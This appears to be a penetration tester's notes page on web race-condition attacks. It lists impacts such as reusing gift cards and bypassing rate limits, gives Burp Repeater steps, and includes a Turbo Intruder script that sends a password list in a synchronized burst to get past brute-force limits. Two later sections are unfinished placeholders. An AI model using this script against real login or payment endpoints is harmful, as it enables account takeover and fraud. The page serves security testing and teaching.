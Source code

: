 # Race conditions

<details>

<summary>Introduction</summary>

Race conditions occurs when websites process requests concurrently without proper safeguards, leading to multiple threads accessing the same data and causing unintended behavior due to "collisions." The timeframe for potential collisions is called the "race window."

**Impact**

* Redeeming a gift card multiple times
* Rating a product multiple times
* Withdrawing or transferring cash in excess of your account balance
* Reusing a single CAPTCHA solution
* Bypassing an anti-brute-force rate limit
* Etc.

</details>

## Detecting and exploiting

Even with simultaneous requests, external factors can unpredictably affect server processing. Burp adjusts techniques automatically.&#x20;

Sending many requests helps reduce server-side jitter, even though only two are needed for exploits.

**With Burp Repeater**

1. Add requests in a group
2. Send group in parallel

**With Turbo Intruder**

1. `Extensions` -> `Turbo Intruder` -> `Send to Turbo Intruder`
2. Modify the request by replacing the value you want to brute force with `%s`.

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    for password in open('/home/francesco/passwords.txt'):
        engine.queue(target.req, password.rstrip(), gate='race1')
    engine.openGate('race1')

def handleResponse(req, interesting):
    table.add(req)
```

## Multi-endpoint race windows <a href="#aligning-multi-endpoint-race-windows" id="aligning-multi-endpoint-race-windows"></a>

**Connection warming**

to do

**Abusing rate or resource limits**

to do

\
\
